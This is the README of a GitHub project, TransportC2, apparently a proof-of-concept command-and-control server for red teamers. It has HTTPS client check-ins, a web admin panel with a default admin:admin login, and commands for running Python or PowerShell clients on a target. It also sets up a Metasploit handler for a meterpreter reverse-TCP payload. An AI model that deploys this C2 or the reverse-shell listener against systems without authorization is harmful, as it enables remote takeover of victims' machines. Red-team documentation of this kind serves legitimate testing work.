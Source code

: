 # TransportC2
![](https://img.shields.io/badge/Status-PoC-orange.svg)&nbsp;&nbsp;
![](https://img.shields.io/badge/Development-Active-green.svg)&nbsp;&nbsp;

TransportC2 is a command and control server with a full GUI that allows interaction with clients through a private web interface. This allows penetration testers and red teamers the ability maintain their connection without being tied to an active session. Once logged into the admin interface, add new authorized users for team interaction and collaboration. 

## Server
Built in Python3, the TransportC2 server was designed for and tested on Debian based Linux Distributions, and has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact with C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has clients written in Python 2/3 and PS1. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 client.py 127.0.0.1 443
```
```bash
Import-Module .\client.ps1
Invoke-Client -ServerIP 127.0.0.1 -Port 443"
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:

*Built-in Metasploit payload only available for python client at this time*
![HelpMenu](server/AdminServer/static/img/help.png)

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```

## Screenshots
![Login](server/AdminServer/static/img/login.png)

![CmdPanel](server/AdminServer/static/img/cmd.png)

## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin

Unintended Contributors
* @byt3bl33d3r
